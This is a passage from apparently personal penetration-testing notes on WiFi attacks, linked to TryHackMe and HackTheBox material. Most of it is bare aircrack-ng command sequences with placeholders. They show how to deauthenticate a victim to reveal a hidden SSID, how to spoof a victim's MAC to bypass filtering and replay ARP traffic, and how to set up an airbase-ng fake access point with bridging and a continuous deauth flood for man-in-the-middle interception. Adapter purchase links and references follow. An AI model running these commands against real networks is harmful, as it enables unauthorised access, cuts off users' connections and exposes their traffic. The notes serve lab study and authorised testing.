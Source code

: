 Find Hidden SSID
```bash
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> wlan0mon
aireplay-ng -0 20 -a <BSSID> -c <VictimMac> wlan0mon 
##BYPASS MAC FILTERING

airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 --a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
```

Man in the Middle WiFi attacks - [[MITM-Attacks]]
```bash
airmon-ng start wlan0
airbase-ng -e “<FakeBSSID>” wlan0mon
brctl addbr <VariableName>
brctl addif <VariableName> wlan0mon
brctl addif <VariableName> at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig <VariableName> up
aireplay-ng -deauth 0 -a <victimBSSID> wlan0mon
dhclient3 <VariableName> &
wireshark &
;select <VariableName> interface
```

## Hardware (possibly not current BiS)

Given that you may not have network card that has monitor mode; recommended Adaptors:  
- Alfa Tube U: [https://amzn.to/3Q8Togp](https://amzn.to/3Q8Togp)  
- Alfa AWUS036NHA: [https://amzn.to/3wnyVen](https://amzn.to/3wnyVen)  
- Alfa AWUS036ACM: [https://amzn.to/3fCL4WT](https://amzn.to/3fCL4WT)  
- Alfa AWUS036ACH: [https://amzn.to/3rLAjny](https://amzn.to/3rLAjny) or [https://amzn.to/2PxkkMV](https://amzn.to/2PxkkMV)

Blog post about the most expensive of the above from [medium Fabian Voith](https://fabian-voith.de/2020/04/22/get-alfa-awus036ach-usb-nic-running-on-kali-vm-to-attack-wireless-networks/)

## References

[THM Room](https://tryhackme.com/room/wifihacking101)
[David Bombal](https://davidbombal.com/hack-wifi-from-1-80/)
[medium Fabian Voith](https://fabian-voith.de/2020/04/22/get-alfa-awus036ach-usb-nic-running-on-kali-vm-to-attack-wireless-networks/)
[referenced above kali blog](https://www.kali.org/blog/kali-linux-2017-1-release/)
[cyberark](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
[GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt)
[GitHub wiire-a/pixiewps - Pixie WPS](https://github.com/wiire-a/pixiewps)
[Kali Tools: Reaver](https://www.kali.org/tools/reaver/) 
[THM AoC 2024 - no answers](https://tryhackme.com/r/room/adventofcyber2024)
[iw linux.die man page](https://linux.die.net/man/8/iw)
[HackTheBox WPS Pin Attacks - Blog - BEWARE Spoilers for HTB Retired Machines after section: Exploiting WPS in practice](https://www.hackthebox.com/blog/wps-pin-attacks-and-cracking-wps-with-reaver) 